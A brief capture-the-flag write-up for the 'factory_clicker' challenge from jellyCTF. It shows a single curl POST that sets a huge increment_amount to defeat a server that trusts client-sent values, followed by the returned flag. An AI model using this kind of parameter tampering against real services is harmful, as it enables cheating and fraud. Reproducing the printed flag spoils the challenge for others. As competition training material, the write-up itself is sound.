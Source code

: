 # factory_clicker

## Difficulty

Easy

## Points Earned

100

## Description

> Author: LISP BEAMER
> 
> https://factory-clicker.jellyc.tf/

![factory_clicker website](./images/factory_clicker.png "factory_clicker")

## Solution

With the network tab open in Chrome devtools, I saw that a POST request with the increment amount is sent whenever I clicked the pipe.

Send a POST request for 500,000,000,001 pipes using CURL:

```bash
> curl -X POST https://factory-clicker.jellyc.tf/increment?increment_amount=500000000001
{
  "flag": "jellyCTF{keep_on_piping_jelly}",
  "score": 500000000001
}

```

## Flag

`jellyCTF{keep_on_piping_jelly}`